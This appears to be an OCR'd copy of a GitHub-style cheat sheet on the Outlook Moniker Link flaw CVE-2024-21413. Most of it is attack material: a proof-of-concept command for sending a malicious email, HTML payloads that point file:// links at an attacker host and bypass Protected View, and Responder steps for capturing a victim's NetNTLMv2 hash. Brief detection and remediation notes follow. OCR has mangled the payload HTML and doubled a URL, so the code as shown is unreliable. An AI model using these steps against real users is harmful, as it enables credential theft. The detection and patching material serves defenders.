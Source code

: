 ## Moniker Link CVE-2024-21413

### Tool: Responder, SMTP client

### PoC: https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

#### PoC usage:

 - python3 CVE-2024-21413.py --server MAIL_SERVER --port PORT --username USER@DOMAIN.LOCAL --password PASSWORD --sender USER@DOMAIN.LOCAL --recipient VICTIM@DOMAIN.LOCAL --url "\\IP/something" --subject XD

### Severity: Critical

### Scoring: 9.8

### MS Article: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

### Affected MS Office releases:

#### 1) Microsoft Office LTSC 2021	(Version: from 19.0.0)

#### 2) Microsoft 365 Apps for Enterprise (Version: from 16.0.1)

#### 3) Microsoft Office 2019 (Version: from 16.0.1)

#### 4) Microsoft Office 2016 (Version: from 16.0.0 before 16.0.5435.1001)

### Example payload: (Moniker Link type: file://)

#### 1) <p><a href="file://ATTACKER_MACHINE/test"<Click me</a></p<

### Outlook's Protected view bypass: (Special character: !)

#### 1) <p><a href="file://ATTACKER_MACHINE/test!exploit"<Click me</a></p<

### POC: https://github.com/CMNatic/CVE-2024-21413

### Steps:

#### 1) sudo responder -I INTERFACE

#### 2) Modify the exploit PoC according to use case

#### 3) Run the exploit

#### 4) User clicks the hyperlink and his NetNTLMv2 hash is been captured by our responder server.

## DETECTION

### 1) YARA rule written by Florian Roth: https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar

### 2) Wireshark: The SMB request from the victim to the client can be seen in a packet capture with a truncated NetNTLMv2 hash

## REMEDIATION

#### 1) Patch to the latest version if possible: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413 or https://www.catalog.update.microsoft.com/Home.aspx

#### 2)  Remind users to:

##### Do not click random links 

##### Preview links before clicking them

##### Forward suspicious emails to the respective department responsible for cybersecurity
